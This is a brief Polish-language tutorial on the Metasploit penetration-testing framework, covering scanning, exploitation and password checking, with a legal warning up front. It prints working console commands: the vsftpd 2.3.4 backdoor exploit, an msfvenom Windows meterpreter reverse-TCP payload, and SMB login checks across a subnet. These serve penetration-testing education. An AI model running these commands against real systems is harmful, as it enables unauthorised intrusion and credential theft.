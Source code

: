 # Metasploit

Metasploit to jeden z najpopularniejszych frameworków do testowania penetracyjnego. Został stworzony w celu odkrywania, eksploatowania i walidowania luk bezpieczeństwa. Wyposażony jest w setki gotowych eksploitów i różnorodne narzędzia, które pozwalają na kompleksową ocenę bezpieczeństwa systemów i sieci.

!!! warning
	 Korzystanie z Metasploit bez odpowiednich uprawnień jest nielegalne i nieetyczne. Pamiętaj, że narzędzia te są stworzone w celu poprawy bezpieczeństwa, a nie jego łamania.

[Metasploit](https://www.metasploit.com)

## Podstawowe funkcje i zastosowania

Poniżej przedstawimy kilka różnych funkcji i zastosowań narzędzia Metasploit.

### Skanowanie

Metasploit umożliwia skanowanie systemów i sieci w poszukiwaniu potencjalnych luk. Na przykład można zeskanować system za pomocą modułu *auxiliary/scanner*:

```bash
msf > use auxiliary/scanner/ssh/ssh_version
msf auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/ssh/ssh_version) > run
```

### Eksploatacja

Gdy luka zostanie znaleziona, Metasploit umożliwia jej eksploatację. Poniżej pokazujemy jak eksploatować podatność w usłudze FTP za pomocą modułu *exploit*:

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.2
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

### Tworzenie payloadów

Metasploit oferuje możliwość tworzenia payloadów, które można dostarczyć do celu, aby uzyskać dostęp. Można na przykład utworzyć prosty payload dla systemu Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
```

### Przechwytywanie haseł

Metasploit ma wiele modułów do przechwytywania haseł, które mogą być użyte do zdobycia dalszych dostępów. Można użyć np. modułu *smb_login* do sprawdzenia haseł na podatnych maszynach SMB:

```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/smb/smb_login) > run
```

## Ściąga

[Ściąga](https://cdn.comparitech.com/wp-content/uploads/2019/06/Metasploit-Cheat-Sheet.pdf)
